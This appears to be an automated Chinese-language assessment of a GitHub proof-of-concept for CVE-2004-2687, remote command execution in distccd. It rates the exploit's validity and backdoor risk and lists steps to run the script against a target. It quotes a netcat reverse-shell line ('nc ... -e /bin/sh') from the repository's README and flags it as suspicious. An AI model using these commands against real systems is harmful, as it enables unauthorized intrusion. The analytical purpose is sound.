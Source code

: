 ## CVE-2004-2687-distccd-远程命令执行

**漏洞编号:** CVE-2004-2687

**漏洞类型:** 远程命令执行

**影响应用:** distccd

**危害等级:** 高危，可能导致完全系统控制

**影响版本:** < 3.1

**利用条件:** 目标系统运行未受限制访问的 distccd 服务

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2004-2687 存在于 distccd 2.x 版本中。当 distccd 未配置为限制对服务器端口的访问时，远程攻击者可以通过编译任务执行任意命令。该漏洞的利用方式是向 distccd 服务发送特制的请求，其中包含要执行的命令。由于 distccd 在执行编译任务时没有进行适当的授权检查，因此可以执行攻击者提供的任意命令。

**有效性分析：**

根据漏洞信息、搜索结果以及提供的漏洞利用代码，可以判断该漏洞的 POC 代码是有效的。漏洞库信息描述了该漏洞，搜索引擎结果中包含多个关于此漏洞的报告和分析，并且存在 Metasploit 模块。提供的 POC 代码 `distccd_rce.py` 实现了利用该漏洞执行任意命令的功能，其工作原理与漏洞描述相符，并且文档中包含了利用示例。

**投毒风险分析：**

分析提供的 `distccd_rce.py` 脚本，脚本本身实现了漏洞利用的功能。脚本从命令行参数接收目标主机、端口和要执行的命令，然后构造包含该命令的 payload 发送给目标 distccd 服务。脚本中没有发现明显的恶意代码，例如反弹 shell 到未知地址，或者删除系统文件等。但考虑到漏洞利用本身可以执行任意命令，如果攻击者修改了脚本并诱导用户使用，则可以植入恶意代码。代码本身是 Metasploit 移植过来的，相对安全,投毒风险很低。README.md中调用`nc [localhost] [lport] -e /bin/sh`,有后门嫌疑.

**利用方式：**

1.  **确定目标：** 找到运行 distccd 服务的系统，并且该服务未配置访问限制。
2.  **准备 exploit：** 准备 `distccd_rce.py` 脚本。
3.  **执行命令：** 使用脚本指定目标 IP 地址、端口和要执行的命令。例如，`python3 distccd_rce.py -t <target_ip> -p 3632 -c "id"` 将在目标系统上执行 `id` 命令。
4.  **获取结果：** 脚本会打印命令执行的结果。

由于 distccd 服务通常以较低权限运行，因此利用该漏洞获得的权限可能有限。但攻击者可以通过进一步的提权操作来获得更高的权限。


**项目地址:** [h3x0v3rl0rd/distccd_rce_CVE-2004-2687](https://github.com/h3x0v3rl0rd/distccd_rce_CVE-2004-2687)

**漏洞详情:** [CVE-2004-2687](https://nvd.nist.gov/vuln/detail/CVE-2004-2687)
